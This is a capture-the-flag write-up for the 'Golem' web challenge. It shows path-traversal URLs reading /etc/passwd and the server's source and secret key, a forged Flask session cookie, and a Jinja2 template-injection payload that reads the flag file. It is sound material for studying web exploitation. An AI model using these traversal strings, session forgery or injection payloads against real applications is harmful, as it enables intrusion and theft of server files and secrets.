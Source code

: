 

## GOLEM

LFI:

https://golem.asisctf.com/article?name=../../../etc/passwd


https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/flag.py
WSGI:

https://golem.asisctf.com/article?name=../../../proc/self/cmdline 

Article Content: /usr/bin/uwsgi--ini/usr/share/uwsgi/conf/default.ini--ini/etc/uwsgi/apps-enabled/golem_proj.ini--daemonize/var/log/uwsgi/app/golem_proj.log


Project init:

https://golem.asisctf.com/article?name=../../../etc/uwsgi/apps-enabled/golem_proj.ini

Article Content: [uwsgi] socket	= 127.0.0.1:9090 plugin	= python wsgi-file	= /opt/serverPython/golem/server.py chdir = /opt/serverPython/golem process	= 3 callable	= app

Server.py:

https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/server.py

(formatted):

```Python
import os

from flask import (
    Flask,
    render_template,
    request,
    url_for,
    redirect,
    session,
    render_template_string
)
from flask.ext.session import Session

app = Flask(__name__)


execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key


@app.route("/golem", methods=["GET", "POST"])
def golem():
    if request.method != "POST":
        return redirect(url_for("index"))

    golem = request.form.get("golem") or None

    if golem is not None:
        golem = golem.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem

    template = None

    if session['golem'] is not None:
        template = '''{% % extends "layout.html" % %}
		{% % block body % %}
		<h1 > Golem Name < /h1 >
		<div class ="row >
		<div class = "col-md-6 col-md-offset-3 center" >
		Hello: % s, why you don't look at our <a href=' / article?name = article'> article < /a >?
		< / div >
		< / div >
		{% % endblock % %}
		''' % session['golem']

        print

        session['golem'] = None

    return render_template_string(template)


@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")


@app.route('/article', methods=['GET'])
def article():

    error = 0

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    if page.find('flag') >= 0:
        page = 'notallowed.txt'

    try:
        template = open('/home/golem/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)

```


Critical part:

```

    if golem is not None:
        golem = golem.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem

```

golem in session checking AFTER golem from GET sanitized



flag.py:

https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/flag.py

Article Content: Security Failed!!!


key.py:

https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/key.py

Article Content: key = '7h15_5h0uld_b3_r34lly_53cur3d'


How to exploit SSTI in Flask (MUST READ!!!):

https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/



Sample server with final payload to generate session cookies (build with http://flask.pocoo.org/docs/0.12/quickstart/):

```python
from flask import (
    Flask,
    session)
from flask.ext.session import Session


app = Flask(__name__)
app.secret_key = "7h15_5h0uld_b3_r34lly_53cur3d"

@app.route('/')
def hello_world():
    session["golem"] = "{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read()}}" 

    print session
    return session["golem"]

```

Generated session cookie:

```
eyJnb2xlbSI6eyIgYiI6ImUzc25KeTVmWDJOc1lYTnpYMTh1WDE5dGNtOWZYMXN5WFM1ZlgzTjFZbU5zWVhOelpYTmZYeWdwV3pRd1hTZ25abXhoWnk1d2VTY3BMbkpsWVdRb0tYMTkifX0.DJX3ag.zCBdRTSBIlK8eYIsDELS2_KQjkI
```

And final request:

```
Hello : flag = 'ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}' , why you don't look at our article?
```

